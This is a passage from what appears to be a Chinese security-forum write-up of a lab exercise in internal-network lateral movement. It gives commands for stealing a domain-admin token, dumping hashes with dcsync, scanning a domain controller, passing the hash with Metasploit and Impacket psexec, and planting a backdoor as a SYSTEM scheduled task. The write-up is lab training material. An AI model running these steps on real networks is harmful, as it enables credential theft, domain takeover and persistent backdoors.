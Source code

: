 ps查看当前进程信息，可见当前域管是在线的，可以使用steal_token进行token窃取（需要system权限），窃取到ATTACK\adminstrator后再使用其身份执行dcsync_ntlm获得hash：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_XPNJHFQYZF5C3PK.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_26RJFRH4GP6TY4V.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_PC8S2ZBDFPDDJ7A.png)  
添加路由后，我们使用nmap对域控ip进行扫描proxychains nmap -sC -A 10.10.10.165 -p
80,53,445,1433,49154,6588,3389,135,21,51464,999：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_6TNKKP77Q35XN5T.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_TTFM687PCGF4D4Y.png)  
开放了445端口，我们可以利用获得得hash：357bec0ee1f524c62ba536fcd3f74472进行pth传递：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_F7CP3HA39ZP5YUG.png)  
如果我们使用msf自带的: use
exploit/windows/smb/psexec模块，因为域控主机开启了防火墙，组织程序进出，所以无论payload是bind或reserve都失败：  
set rhosts 10.10.10.165  
set smbuser administrator  
set smbpass aad3b435b51404eeaad3b435b51404ee:357bec0ee1f524c62ba536fcd3f74472  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_YGAYAG5C4XK6VBE.png)  
我们可以使用第三方Impacket工具包中的smbexec和psexec进行pth，执行下面命令：  
PsExec -hashes :357bec0ee1f524c62ba536fcd3f74472
ATTACK/Administrator@10.10.10.165 "whoami"，连接到域控主机当前是system权限  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_FWU7SNJ4FKKPF29.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_GNT6F76G8ZK5DQ8.png)  
使用copy命名把后门复制到域控中：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_FYZ3MW3RMPM5BHJ.png)  
使用如下命令  
Schtasks /create /s 10.10.10.165 /ru "SYSTEM" /tn executefile /sc DAILY /tr
c:/hb.exe /F  
Schtasks /run /s 10.10.10.165 /tn executefile /i  
创建计划任务，执行相关后门：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_3E5ZV82D39GBQYU.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_UARGUTGWE6XMXBJ.png)

# [](https://bbs.pediy.com/thread-268289.htm)参考:

https://www.moonsec.com/  
内网安全攻防



  

